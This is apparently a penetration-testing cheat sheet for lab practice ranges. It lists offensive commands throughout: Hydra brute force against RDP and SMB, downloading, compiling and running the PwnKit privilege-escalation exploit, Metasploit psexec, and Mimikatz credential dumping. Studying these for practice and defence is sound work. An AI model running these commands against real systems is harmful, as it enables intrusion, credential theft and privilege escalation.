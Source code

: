 # ****1. Active Directory Range****
Goal: Assess the security posture of Active Directory environments.

## **Tools and Commands**
**1.1 Nmap for Initial Enumeration**
Identify active ports and services to locate the Domain Controller.
- nmap -sS -p- -T4 -A -v 192.168.1.0 
- nmap -p445 --script smb-enum-shares,smb-enum-users 192.168.1.0 

**1.2 NBTSTAT for NetBIOS Enumeration**
- Confirm the NetBIOS name and domain.
- nbtstat -A 192.168.1.0

**1.3 Hydra for Brute Force**
Attempt brute force on RDP or SMB services to gain credentials.
- hydra -l <username> -P <password_file> rdp://192.168.1.0
- hydra -l <username> -P <password_file> smb://192.168.1.0

**Key Tip: Use CrackMapExec to enumerate SMB shares and check password policies.**
- crackmapexec smb 192.168.1.0 -u <username> -p <password>

# ****2. Binary Exploitation Range****
Goal: Identify and exploit vulnerabilities in binaries for privilege escalation or arbitrary code execution.

## **Tools and Commands**
**2.1 GDB for Binary Analysis**
Debug the binary and find memory vulnerabilities.
- gdb ./binary  
- break main  
- run  
- info registers  

**2.2 PwnKit for Privilege Escalation**
- Leverage a known exploit to escalate privileges.
- wget https://github.com/ly4k/PwnKit/raw/main/pwnkit.c  
- gcc pwnkit.c -o pwnkit  
- ./pwnkit  

**2.3 BinWalk for Firmware Analysis**
- Extract and analyze embedded files from firmware images.
- binwalk -e FileOne.bin  
- cd _FileOne.bin.extracted  

# **3. CTF Range**
Goal: Compromise target machines and retrieve sensitive information.

## **Tools and Commands**
**3.1 Nmap and Dirb for Web Enumeration**
- Enumerate HTTP services and find hidden directories.
- nmap -sS -p80,443 -A 192.168.1.0 
- dirb http://192.168.1.0 

**3.2 WPScan for WordPress Vulnerabilities**
Scan for vulnerable plugins and themes.
- wpscan --url http://192.168.1.0  --enumerate p  

**3.3 Metasploit for Exploitation**
Exploit SMB services using the PSExec module.
- use exploit/windows/smb/psexec  
- set RHOSTS 192.168.1.0 
- set SMBUser <username>  
- set SMBPass <password>  
- exploit  

# **4. IoT Range**
Goal: Analyze IoT firmware for sensitive data or configuration flaws.

**Tools and Commands**
**4.1 Firmware Extraction with BinWalk**
Identify and extract compressed files.
- binwalk -e IOT.bin  

**4.2 File Analysis**
Search for sensitive configuration files.
- grep -i "password" romfile.cfg  
- cat romfile.cfg | grep admin  

# **5. Post-Exploitation and Privilege Escalation Range**
Goal: Maintain access and escalate privileges on compromised systems.

## **Tools and Commands**
**5.1 CrackMapExec for Lateral Movement**
Enumerate and authenticate across the network.
- crackmapexec smb 192.168.1.0 -u <username> -p <password> --shares  

**5.2 Mimikatz for Credential Dumping**
Retrieve plaintext passwords and hashes.
- mimikatz.exe  
- privilege::debug  
- sekurlsa::logonpasswords  

**5.3 Privilege Escalation on Linux**
Enumerate sudo permissions and escalate.
- sudo -l  
- sudo su
